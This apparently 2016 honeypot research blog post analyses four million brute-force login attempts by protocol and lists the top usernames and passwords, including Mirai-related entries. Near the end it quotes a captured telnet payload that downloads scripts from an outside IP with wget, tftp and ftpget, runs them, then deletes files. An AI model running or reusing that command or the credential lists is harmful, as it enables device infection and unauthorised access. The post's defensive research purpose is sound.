 ```yaml
---
title: "Initial analysis of four million login attempts"
authors: ["Johnny Vestergaard"]
date: "2016-09-09"
categories: 
  - "analysis"
tags: 
  - "analysis"
  - "heralding"
  - "honeypot"
---
```


**Introduction**

This blog post is a follow up to an [earlier article](https://honeynet.org/node/1321), where I set out to conceive a system that could deliver the data needs to answer 5 specific questions.

**The setup**

To provide the data needed for this analysis, my setup consisted of 4 VPS situated respectively at Amazon EC2, Azure, MeeBox and a Danish ISP end-user connection. Even though the same 4 VPS were used throughout the data collection, 6 different IP addresses were used for the honeypots - the reason for this was that one of the honeypots had a dynamically assigned IP address. As mentioned in an [earlier article](https://honeynet.org/node/1321) all honeypots were running Heralding. The technical setup was automated with ansible.

**Time period and initial data**

A subset of all collected data was selected for analysis, the subset covered the period 24. may 2016 to 24. august 2016. In this period there were 4,369,149 login attempts. For each login attempt the following data was available:

timestamp, session\_id, auth\_id, protocol, source\_ip, source\_port, destination\_ip, destination\_port, username, password.

**Which protocols does my adversary try to brute-force?**

Since Heralding only supports 6 protocols (8 if you include ssl wrapped http and pop3), the possibility space is limited to the supported protocols. Furthermore the HTTP capability only supports basic authentication and the pop3 and smtp implementations also only supports a limited subset of the authentication mechanisms normally available for said protocols.

As expected the two most targeted protocols was SSH and Telnet, these two protocols combined saw around 93% of all brute force activity. More surprisingly it was found that SMTP and POP3 only saw around 7% of all activity, I expected the numbers for email protocols would be higher, but maybe SMTP relays sells too cheap to be worth the hassle?

<table><caption>Attacks per protocol</caption><tbody><tr><th>Protocol</th><th>Attempts</th><th>Percentage</th></tr><tr><td>SSH</td><td>2717874</td><td>62%</td></tr><tr><td>Telnet</td><td>1353050</td><td>31%</td></tr><tr><td>SMTP</td><td>196601</td><td>5%</td></tr><tr><td>POP3</td><td>83420</td><td>2%</td></tr><tr><td>HTTP</td><td>17990</td><td>&lt;1%</td></tr><tr><td>FTP</td><td>194</td><td>&lt;1%</td></tr><tr><td>HTTPS</td><td>20</td><td>&lt;1%</td></tr><tr><td>POP3S</td><td>0</td><td>0</td></tr></tbody></table>

**Which username and password did he use?**

A total of 11685 usernames and 128001 was collected during the period. Not surprisingly the username root comes in at a first place with 2955040 login attempts. More surprising the second most attempted password was _/bin/busybox MIRAI_, this is most definitely not an password attempt - but looks more like trying to execute some known malware. Never the less this was attempted 106969 times, it would be interesting to look at the timing of these - maybe it can be correlated with OSINT on this specific malware. Update: For further information in regards to MIRAI, check this [article](http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html?m=1) by [MalwareMustDie](http://malwaremustdie.org).

<table><caption>Top 5 username</caption><tbody><tr><th>Username</th><th>Attempts</th></tr><tr><td>root</td><td>2955040</td></tr><tr><td>admin</td><td>300637</td></tr><tr><td>shell</td><td>147641</td></tr><tr><td>support</td><td>114015</td></tr><tr><td>sh</td><td>107741</td></tr></tbody></table>

<table><caption>Top 5 passwords</caption><tbody><tr><th>Password</th><th>Attempts</th></tr><tr><td>enable</td><td>107361</td></tr><tr><td>/bin/busybox MIRAI</td><td>106969</td></tr><tr><td>12345</td><td>105879</td></tr><tr><td>admin</td><td>101248</td></tr><tr><td>1234</td><td>89741</td></tr></tbody></table>

A curated list of all attempted passwords can be found [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_passwords.txt) and a list of usernames [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_usernames.txt).

**Future work**

Still 3 of the original questions need to be answered, the data is at hand - and will result in another blog post when I find the time. For the record, the remaining questions are:

- At which speed did he brute-force?
- From where did he proxy from?
- What time of day did he brute-force?

Also it would be interesting to do an analysis of username and password combinations.

One thing i especially noted, is that some of telnet login attempts is not normal bruteforce activity. Some of it looks to be raw shell exploitations attempts:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://104.207.135.146/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 104.207.135.146 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 104.207.135.146; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 104.207.135.146 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *`

Others looks to be some kind of malfunctional bot:

`Failed opening raw socket.Failed setting raw headers mode.all,synrstfinackpshInvalid flag "%s"PONG!GETLOCALIPMy IP: %sSCANNERSCANNER ON | OFFOFFSCANNER STOPPED!ONSCANNER STARTED!HOLDJUNKUDPTCPKILLATTKLOLNOGTFO8`

And now it gets plain old weird, this entry looks like logs from another honeypot: `Failed telnet attempt - 2.180.25.253:root:toor Failed telnet attempt - 120.36.60.61:admin:toor`

Want to do your own analysis or crazy visualizations? [Contact me](mailto:jkv@unixcluster.dk), and I will provide you with the raw data (IP addresses will be sanitized). The only condition, is that your analysis must be made public.

 

Regards,

Johnny Vestergaard

[LinkedIN](https://www.linkedin.com/in/johnnykv)

[Mail](mailto:jkv@unixcluster.dk)
